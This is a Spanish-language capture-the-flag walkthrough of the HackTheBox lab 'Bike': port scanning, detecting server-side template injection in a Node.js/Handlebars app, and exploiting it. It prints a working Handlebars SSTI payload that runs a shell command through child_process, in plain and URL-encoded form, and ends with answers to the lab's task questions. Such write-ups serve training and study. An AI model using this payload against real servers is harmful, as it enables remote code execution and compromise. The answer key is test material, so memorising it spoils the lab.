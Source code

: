 # Bike

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Custom Applications (Aplicaciones Personalizadas):** Son aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. A menudo, estas aplicaciones no se desarrollan siguiendo las mejores prácticas de seguridad, lo que puede dar lugar a vulnerabilidades. Dado que son personalizadas, pueden ser difíciles de mantener y auditar, lo que aumenta el riesgo de ser objetivo de un ataque si no se gestionan adecuadamente.
  * **NodeJS:** Es un entorno de ejecución para JavaScript en el servidor, ampliamente utilizado para construir aplicaciones web escalables y rápidas. Aunque es potente y flexible, si no se implementa correctamente o se usan dependencias inseguras, NodeJS puede ser vulnerable a ataques como la ejecución remota de código o la inyección de dependencias maliciosas.
  * **Reconnaissance (Reconocimiento):** Es una fase inicial crucial en el proceso de pruebas de penetración, en la que se recopila información sobre el objetivo. Esto incluye escaneo de puertos, identificación de servicios y posibles vulnerabilidades, y análisis de la infraestructura. El objetivo del reconocimiento es descubrir posibles puntos de entrada y explotar configuraciones incorrectas.
  * **Remote Code Execution (Ejecución Remota de Código):** Es una vulnerabilidad crítica que permite a un atacante ejecutar código malicioso en el sistema de la víctima de manera remota. Puede explotarse a través de diversos vectores como aplicaciones web, servicios mal configurados o vulnerabilidades en el software. La ejecución remota de código pone en peligro la integridad y la confidencialidad de los sistemas afectados.
  * **Server Side Template Injection (SSTI) (Inyección de Plantillas del Lado del Servidor):** Es una vulnerabilidad que ocurre cuando un atacante puede inyectar código malicioso en las plantillas del lado del servidor, lo que permite la ejecución de código en el servidor. Esta vulnerabilidad puede ser utilizada para ejecutar comandos del sistema operativo, robar datos o comprometer el servidor, especialmente si el sistema de plantillas no valida correctamente los datos introducidos por el usuario.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.97.64
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.97.64
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** correspondiente a **HTTP** están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 181725.png" alt=""><figcaption></figcaption></figure>

Vemos la información de la página.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 182158.png" alt=""><figcaption></figcaption></figure>

Ponemos `{{7*7}}` para ver si tenemos una vulnerabilidad SSTI.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copiamos el payload de Node.js.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html" %}

```bash
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

Codificamos el código en formato URL y lo pegamos en el campo email de la petición.

```bash
%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%63%61%74%20%2f%72%6f%6f%74%2f%66%6c%61%67%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1:** ¿Qué puertos TCP identifica nmap como abiertos? Responde con una lista de puertos separados por comas y sin espacios, de menor a mayor.

* **22,80**

**Task 2:** ¿Qué software está ejecutando el servicio que escucha en el puerto HTTP/web identificado en la primera pregunta?

* **node.js**

**Task 3:** ¿Cuál es el nombre del marco web según Wappalyzer?

* **express**

**Task 4:** ¿Cuál es el nombre de la vulnerabilidad que probamos enviando \{{7\*7\}}?

* **Server Side Template Injection**

**Task 5:** ¿Cuál es el motor de plantillas que se está utilizando dentro de Node.js?

* **handlebars**

**Task 6:** ¿Cuál es el nombre de la pestaña de BurpSuite utilizada para codificar texto?

* **decoder**

**Task 7:** Para enviar caracteres especiales en nuestra carga útil en una solicitud HTTP, codificamos la carga útil. ¿Qué tipo de codificación usamos?

* **url**

**Task 8:** Cuando usamos una carga útil de HackTricks para intentar ejecutar comandos del sistema, obtenemos un error. ¿Qué es lo que "no está definido" en el error de respuesta?

* **require**

**Task 9:** ¿Qué variable es tradicionalmente el nombre del ámbito de nivel superior en el contexto del navegador, pero no en Node.js?

* **global**

**Task 10:** Al explotar esta vulnerabilidad, obtenemos ejecución de comandos como el usuario que ejecuta el servidor web. ¿Cuál es el nombre de ese usuario?

* **root**

